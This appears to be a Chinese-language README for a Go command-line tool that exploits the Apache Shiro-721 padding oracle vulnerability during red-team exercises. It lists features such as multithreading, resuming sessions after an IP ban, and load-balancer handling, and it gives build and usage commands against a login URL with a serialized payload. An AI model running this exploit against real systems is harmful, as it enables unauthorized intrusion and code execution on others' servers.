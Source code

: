 # 简介

hvv红队渗透测试工具, Go版本的多线程Shiro-721(PaddingOracle)利用工具

# 使用场景

> 一般用于: 你在hvv时发现了一个带Shiro-721漏洞的站, 但是苦于现有exp都是单线程的, 而且崩了要重新开始跑, 好不容易跑出来了结果还TM不能用, 最后跑的心态爆炸还没日下来的情况.

# 特点

- go语言编写, 方便快速的在各种平台编译运行, 无依赖, 不需要装jdk/jre之类的运行时环境
- 有"错误补偿"机制, 基本上只要能跑出结果就一定是可用的(实现方法可以看下源码~)
- 支持多线程(一般给个15-60线程就差不多了, 具体参数需要根据实际情况微调)
- 支持后端带负载均衡节点的情况
- 支持后端带负载均衡节点, 但是其中一个或多个节点还TM不可用的情况
- 支持后端带负载均衡节点, 但是其中一个或多个节点用的还TM不是相同的SecretKey的情况
- 支持"断点续传", 比如你在本机跑了一半了, 突然电脑蓝屏了(or 五国了), 恢复之后可以接着刚才的进度继续跑
- 支持"断点续传", 比如你在VPS上跑了一半了, 然后蓝队突然把你VPS的IP给Ban了, 然后VPS提供商还TM不给换IP, 这时你可以带着session文件换个VPS继续跑
- 支持随机(or 自定义)`padding byte`
- 支持设置"重试次数"(一般用于后端有多个负载节点, 但是只有部分个负载节点能正确响应的情况)
- 支持设置在恢复会话的时候从指定的block开始跑
- 支持设置"超时时间", 比如后端节点有三台响应的非常快, 有一台响应的特别慢, 这时可以设置"超时时间"来避开响应慢的那台

# 编译方式

`go build -trimpath -ldflags "-s -w"`

# 使用方式

## 参数

```
$ ./ShiroPaddingOracle                                            
Usage of ./ShiroPaddingOracle:
  -a int    // 重试次数, 需要根据后端节点数量和质量进行微调
        number of attempts (default 15)
  -b int    // 一般默认就好
        block size (default 16)
  -c int    // 调试用的, 一般默认(随机)就好
        custom padding byte
  -d int    // 单个HTTP请求的超时时间, 根据目标响应速度微调
        timeout seconds (default 3)
  -i string // 指定存放合法rememberMe数据的文件
        rememberMe data file (default "rememberMe.txt") 
  -p string // 指定 payload 文件
        payload data file (default "payload.ser") 
  -r string // 指定会话文件继续跑或者查看结果
        load session file to restore
  -s string // 指定会话文件的文件名, 一般默认就好
        session file
  -t int    // 并发线程数
        number of threads (default 16)
  -u string // 目标地址
        target url
  -v    verbose // 详细模式, 一般用于调试

```

## 新建会话

`./ShiroPaddingOracle-darwin-arm64 -u http://127.0.0.1:8081/jeesite/a/login -p foobar.class -i rememberMe.txt -t 64`

- `-u` 目标地址: http://127.0.0.1:8081/jeesite/a/login
- `-p` Payload文件: foobar.class (咋生成应该不用我说吧..)
- `-i` rememberMe数据文件: rememberMe.txt
- `-t` 线程数: 64

## 恢复会话

`./ShiroPaddingOracle-darwin-arm64 -r 2022-01-07_13-33-17.session`

- 从`2022-01-07_13-33-17.session`这个文件恢复会话继续跑或者查看跑完的结果

# 注意事项

- 打目标之前建议先本地搭建环境测试
- 选个靠谱的payload, 争取一次成功, 不然白跑, 而且目标硬盘可能会被日志塞满
- 线程数不要设的太高, 不要影响目标的正常业务
- 跑的时候尽量看是看着点, 不然IP被Ban了还继续跑浪费时间
- 具体使用细节请看源码
